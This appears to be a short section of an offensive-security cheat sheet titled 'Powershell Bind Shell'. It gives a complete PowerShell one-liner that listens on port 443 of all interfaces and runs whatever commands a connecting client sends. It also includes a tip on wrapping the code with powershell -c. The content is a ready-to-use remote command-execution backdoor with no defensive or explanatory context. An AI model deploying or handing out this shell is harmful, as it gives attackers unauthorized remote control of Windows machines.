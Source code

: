 ## Powershell Bind Shell
Remember to change local addresss accordingly, some localhosts won't be `0.0.0.0`
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner.
